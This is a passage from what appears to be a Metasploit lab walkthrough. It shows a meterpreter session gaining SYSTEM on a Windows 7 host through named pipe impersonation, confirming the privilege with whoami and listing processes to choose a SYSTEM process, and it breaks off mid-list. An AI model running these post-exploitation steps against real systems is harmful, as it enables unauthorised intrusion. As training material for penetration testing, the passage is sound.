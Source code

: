> ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
  
`meterpreter > shell`
  
> Process 2368 created.
>   
> Channel 1 created.
>   
> Microsoft Windows [Version 6.1.7601]
> 
> Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

`C:\Windows\system32>whoami`

> nt authority\system

#### 7) List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

`C:\Windows\system32>^Z`

`Background channel 1? [y/N]  y`

`meterpreter > ps`

> Process List
>   
> ============
> 
>  PID   PPID  Name                  Arch  Session  User                          Path
>   
> ---   ----  ----                  ----  -------  ----                          ----
> 
> 0     0     [System Process]                                                   
> 
> 4     0     System                x64   0                                      
> 
> 140   564   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
> 
> 356   708   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
> 
> 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
> 
> 432   708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
> 
> 484   708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
> 
> 564   552   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
> 
> 612   552   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
> 
> 620   604   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
> 
> 660   604   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
> 